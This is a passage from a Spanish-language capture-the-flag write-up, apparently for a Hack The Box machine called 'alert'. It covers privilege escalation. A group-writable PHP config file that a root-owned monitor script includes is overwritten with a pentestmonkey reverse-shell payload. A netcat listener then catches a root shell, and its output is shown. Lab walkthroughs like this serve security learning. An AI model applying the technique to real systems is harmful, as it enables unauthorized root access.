 ```bash
albert@alert:~$ ls -l /opt/website-monitor/monitor.php
-rwxrwxr-x 1 root root 1452 Oct 12  2024 /opt/website-monitor/monitor.php
```

No tenemos directamente permisos para editarlo, pero, dentro, incluye otro archivo, que es `/opt/website-monitor/config/configuration.php`.

![alert]({{"/assets/images/alert12.png"}})

Ese archivo, si vemos los permisos, sí tenemos permisos para poder editarlo, gracias al grupo `management` al que pertenecemos.

```bash
albert@alert:~$ ls -l /opt/website-monitor/config/configuration.php
-rwxrwxr-x 1 root management 49 Nov  5  2024 /opt/website-monitor/config/configuration.php
```

Probemos a escribir en el archivo un payload, en este caso usaremos el de `pentestmonkey`, sacado de `https://revshells.com`.

Ponemos antes a la escucha nuestro puerto 9001 en nuestra máquina atacante:

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
```

Tras eso y escribir el payload en el archivo `configuration.php`......

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.221] from (UNKNOWN) [10.129.231.188] 47876
Linux alert 5.4.0-200-generic #220-Ubuntu SMP Fri Sep 27 13:19:16 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 16:42:15 up  1:36,  1 user,  load average: 0.09, 0.03, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
albert   pts/0    10.10.14.221     16:20    7.00s  0.12s  0.01s nano /opt/website-monitor/config/configuration.php
uid=0(root) gid=0(root) groups=0(root)
bash: cannot set terminal process group (3284): Inappropriate ioctl for device
bash: no job control in this shell
root@alert:/# whoami
whoami
root
```

Conseguimos escalar privilegios al usuario `root`!, máquina Pwned!

Keep hacking! :)

### VIDEO PENDIENTE DE PUBLICAR

